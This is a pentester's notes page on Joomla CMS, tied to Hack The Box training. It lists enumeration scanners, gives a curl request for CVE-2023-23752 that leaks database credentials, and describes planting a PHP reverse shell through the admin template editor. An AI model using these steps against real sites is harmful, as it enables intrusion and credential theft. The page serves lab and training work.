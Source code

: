 # Joomla CMS

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)

<div class="row row-cols-lg-2"><div>

[Joomla](https://www.joomla.org/) is an open-source Content Management System (CMS) written in PHP. The version 5 is currently in development (2024).

* [GitHub](https://github.com/joomla/joomla-cms) <small>(4.4k ⭐)</small>
* [Documentation](https://github.com/joomla/joomla-cms) <small>(⛪)</small>

The admin page default path is: `/administrator`.
</div><div>
</div></div>

<hr class="sep-both">

## Joomla Pentester Notes ☠️

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![devvortex](../../../../../cybersecurity/_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

<div class="row row-cols-lg-2"><div>

The `/robots.txt` file may contain the list of interesting paths. If the website was not properly configured, `/README.txt` may be accessible.

* OWASP initiated the development of [joomscan](https://github.com/OWASP/joomscan) <small>(1.0k ⭐)</small>

```ps
$ sudo apt install joomscan
$ joomscan -u URL
[+] Detecting Joomla Version
[++] Joomla x.y.z

<SNIP... Nothing of interest>
```

* You can try to use [droopescan](/cybersecurity/red-team/tools/scanners/web/droopescan.md) <small>(not really useful)</small>

```ps
$ droopescan scan joomla --url URL
```
</div><div>

* [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752): Exposed credentials `[4.0.0, 4.2.7]`. See also: [PoC (ruby)](https://github.com/Acceis/exploit-CVE-2023-23752) <small>(0.05k ⭐)</small> or manual exploitation:

```ps
$ curl -v URL/api/index.php/v1/config/application?public=true
"dbtype": "mysqli",
"host": "localhost",
"user": "xxx",
"password": "yyy"
"db": "joomla",
```

* When logged as administrator, you can upload a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):

Go in System > Site Templates > Click on a template.
Create a new file or upload one if you can. You can copy-paste a shell:

```ps
$ cat revshell.php | xclip -selection clipboard
```

The file path is shown in the editor, while, for reference, mine was at the URL:  `URL/templates/<your_selected_site_name>/revshell.php`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `/images`, `/home`, `/media`, `/templates`, `/modules`
* `/plugins`, `/includes`, `/language`, `/components`, `/api`
* `/cache`, `/libraries`, `/tmp`, `/layouts`, `/administrator`
* `/media/templates/site/<name>/assets/`
</div><div>
</div></div>